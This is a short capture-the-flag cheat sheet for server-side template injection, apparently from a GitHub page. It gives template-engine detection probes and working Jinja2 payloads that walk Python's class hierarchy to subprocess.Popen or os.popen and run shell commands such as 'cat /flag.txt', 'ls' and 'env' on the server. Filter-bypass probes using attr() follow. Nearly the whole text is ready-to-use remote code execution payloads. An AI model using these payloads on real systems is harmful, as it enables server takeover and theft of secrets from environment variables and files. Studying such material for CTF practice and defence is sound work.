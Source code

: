 # Step 1: Detect the template engine
`{{7*7}}`                    // Jinja2 <br>
`${7*7}`                     // Velocity <br>
`<%= 7 * 7 %>`               // ERB <br>
`#{7*7}`                     // Jade / Pug <br>
`*{7*7}`                     // Thymeleaf <br>

# Step 2: Basic Jinja2 RCE Payload <br>
`{{ ''.__class__.__mro__[1].__subclasses__() }}` <br>
This will dump a list of all subclasses — look for something like <class 'subprocess.Popen'>, <class 'os._wrap_close'>, etc. <br>

# Step 3: Find the os or subprocess class index <br>
`{{ ''.__class__.__mro__[1].__subclasses__()[400] }}` <br>
Check for the Popen subprocess by iterating through 400, 401, etc. <br>

# Step 4: Execute Shell Command to Read Flag <br>
`{{ ''.__class__.__mro__[1].__subclasses__()[<index>]('cat /flag.txt', shell=True, stdout=-1).communicate()[0].decode() }}`  //prints the content of flag.txt <br>
`{{ ''.__class__.__mro__[1].__subclasses__()[X]('ls', shell=True, stdout=-1).communicate()[0].decode() }}`     //ls is executed in the web server <br>


# Alternative via os.popen (if subprocess doesn't work) <br>
`{{ ''.__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['os'].popen('cat /flag.txt').read() }}` <br>
`{{ ''.__class__.__mro__[1].__subclasses__()[Y].__init__.__globals__['os'].popen('ls').read() }}` <br>

# Common Commands to Try: <br>
`ls` / → to list root <br>
`ls /app`, `ls /home`, `ls /var/www/html` → common flag locations <br>
`cat /flag.txt` → direct flag access <br> 
`env` → might contain the flag in env vars <br>

more info on: https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html

# Filter checking: <br>
1. Testing for dot (`.`) <br>
`{{7.__class__}}`  // Returns int class if dot is not filtered. <br> 

2.  Test for Underscore (`_`) <br>
`{{''.__class__}}` // Should return <class 'str'>. If it echoes as {{''class}}, then __ or _ is filtered or stripped. <br>

3. Test for Brackets (`[]`) <br> 
`{{['a','b'][0]}}` // Should return a if brackets are allowed. <br>

4. Test for quotes. <br>
`{{'a'}}` <br>
`{{"a"}}` // Check if quotes are blocked, stripped, or allowed. <br>

5. Test for `attr()` Filter (used to evade `.`) <br>
`{{''|attr('__class__')}}`  // If dot is blocked, this may succeed as a bypass. <br>

